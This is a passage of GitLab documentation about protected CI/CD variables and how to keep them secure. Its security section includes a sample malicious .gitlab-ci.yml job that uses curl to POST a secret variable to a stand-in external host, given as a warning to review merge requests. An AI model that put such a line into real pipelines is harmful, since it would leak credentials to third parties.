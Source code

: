 ### Protected CI/CD variables

You can configure a project, group, or instance CI/CD variable to be available
only to pipelines that run on [protected branches](../../user/project/protected_branches.md)
or [protected tags](../../user/project/protected_tags.md).

[Merged results pipelines](../pipelines/merged_results_pipelines.md), which run on a
temporary merge commit, not a branch or tag, do not have access to these variables.

Pipelines that run directly on the merge request's source branch, with no added merge commit, can access
these variables if the source branch is a protected branch.

To mark a variable as protected:

1. Go to **Settings > CI/CD** in the project, group or instance Admin Area.
1. Expand the **Variables** section.
1. Next to the variable you want to protect, select **Edit**.
1. Select the **Protect variable** checkbox.
1. Select **Update variable**.

The variable is available for all subsequent pipelines.

### CI/CD variable security

Malicious code pushed to your `.gitlab-ci.yml` file could compromise your variables
and send them to a third party server regardless of the masked setting. If the pipeline
runs on a [protected branch](../../user/project/protected_branches.md) or
[protected tag](../../user/project/protected_tags.md), malicious code can compromise protected variables.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
build:
  script:
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```

Variable values are encrypted using [`aes-256-cbc`](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
and stored in the database. This data can only be read and decrypted with a
valid [secrets file](../../raketasks/backup_restore.md#when-the-secrets-file-is-lost).

### Custom variables validated by GitLab

Some variables are listed in the UI so you can choose them more quickly.
